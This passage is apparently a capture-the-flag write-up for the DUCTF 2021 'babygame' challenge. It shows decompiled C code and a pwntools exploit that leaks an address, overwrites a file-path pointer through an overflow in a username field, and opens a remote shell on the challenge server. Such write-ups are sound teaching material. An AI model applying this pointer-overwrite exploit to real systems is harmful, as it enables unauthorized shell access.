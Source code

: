 Now let's checkout the mysterious `game` function:
```c
unsigned __int64 game()
{
  FILE *stream; // [rsp+8h] [rbp-18h]
  int ptr; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  stream = fopen(RANDBUF, "rb");
  fread(&ptr, 1uLL, 4uLL, stream);
  printf("guess: ");
  if ( get_num() == ptr )
    system("/bin/sh");
  return v3 - __readfsqword(0x28u);
}
```

The program will open RANDBUF (`RANDBUF = /dev/urandom`) to read the first 4 bytes of it, if i could guess those 4 bytes correctly i'll have a shell. But why do i have to guess, when i can just overwrite the `RANDBUF` pointer, so where do i overwrite `RANDBUF` buffer to point to?

I will overwrite it to point right back at the beginning of the `NAME` buffer, and i use function `set_username` to both rewriting `NAME` buffer from garbage into `"flag.txt\0"` and overwriting the `RANDBUF` pointer, the first 4 bytes of flag.txt is always `DUCT (0x54435544 in little-endian hexa)`, that's a free shell isn't it? Here's my exploit:
```python
from pwn import *


io = remote('pwn-2021.duc.tf', 31907)
#io = process('./babygame')

print(io.recv())
payload = b'A'*40
io.sendline(payload)
print(io.recvuntil('> '))
print(io.recvuntil('> '))
io.sendline('2')
io.recv(32)
leak = u64(io.recv(6)+b'\0\0') + 8316
print(hex(leak))
print(io.recvuntil('> '))
io.sendline('1')
print(io.recv())
payload = b'flag.txt'+b'\0'*24+p64(leak)
io.sendline(payload)
print(io.recvuntil('> '))
print(io.recvuntil('> '))
io.sendline('1337')
print(io.recv())
io.sendline('1413698884')
io.interactive()
```
Flag: `DUCTF{whats_in_a_name?_5aacfc58}`
